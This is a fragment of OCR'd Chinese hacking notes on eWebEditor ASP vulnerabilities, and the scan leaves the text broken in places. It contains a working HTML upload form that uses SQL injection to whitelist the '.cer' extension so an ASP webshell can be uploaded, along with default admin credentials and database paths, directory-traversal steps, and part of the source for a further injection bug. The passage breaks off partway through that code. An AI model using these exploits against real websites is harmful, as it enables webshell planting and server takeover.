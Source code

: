 访问h4x0r.asp，再访问后台任何文件，for example:Admin_Default.asp

漏洞影响:虚拟主机的克星.

4.ewebeditor asp版 2.1.6 上传漏洞

&lt;H1&gt;ewebeditor asp版 2.1.6 上传漏洞利用程序&lt;/H1&gt;&lt;br&gt;

&lt;form action="<a>http://127.1/e/upload.asp?action=save&amp;type=IMAGE&amp;style=luoye'</a> union select

S_ID,S_Name,S_Dir,S_CSS,S_UploadDir,S_Width,S_Height,S_Memo,S_IsSys,S_FileExt,S_FlashExt, [S_ImageExt]%

2b'|cer',S_MediaExt,S_FileSize,S_FlashSize,S_ImageSize,S_MediaSize,S_StateFlag,S_DetectFromWord,S_InitMode,S_BaseUrl

from ewebeditor_style where s_name='standard'and'a'='a" method=post name=myform enctype="multipart/form-data"&gt;

&lt;input type=file name=uploadfile size=100&gt;&lt;br&gt;&lt;br&gt;

&lt;input type=submit value=Fuck&gt;

&lt;/form&gt;

<a>http://127.1/e/upload.asp</a>

上传时修改此处上传地址。。。

如果你是上传的asp文件则成功后的地址为：

<a>http://127.1/e/uploadfile/xxxxxxxxxx.asp</a>

5.ewebeditor遍历路径漏洞
Ewebeditor为非常常见的网站核心程序,
默认数据库为 /db/ewebeditor.mdb 默认路径admin_login.asp 默认管理员admin密码admin(admin888)

ewebedit进入后台添加样式.得到webshell很容易. 有时候很不幸.管理员把数据库改为只读权限.

但是ewebeditor后台有个小小的缺陷. 可以历遍整个网站目录. 当然.数据库为只读的时候一样可以利用.

上传文件管理---选择样式目录(随便选一个目录)
得到:
ewebeditor/admin_uploadfile.asp?id=14
在id=14后面添加&amp;dir=..
再加 &amp;dir=../..
&amp;dir=../../../.. 看到整个网站文件了

6.eweb2.7版本以下又一个注入

首先看代码(ewebeditor.asp)：
ub InitPara()
' 取全屏标志
sFullScreen = Trim(Request.QueryString("fullscreen"))
' 取对应的内容ID
sContentID = Trim(Request.QueryString("id"))
If sContentID = "" Then ShowErr "请传入调用参数ID，即隐藏的内容表单项ID！"

' 取样式初始值
sStyleName = Trim(Request.QueryString("style"))
If sStyleName = "" Then sStyleName = "standard"
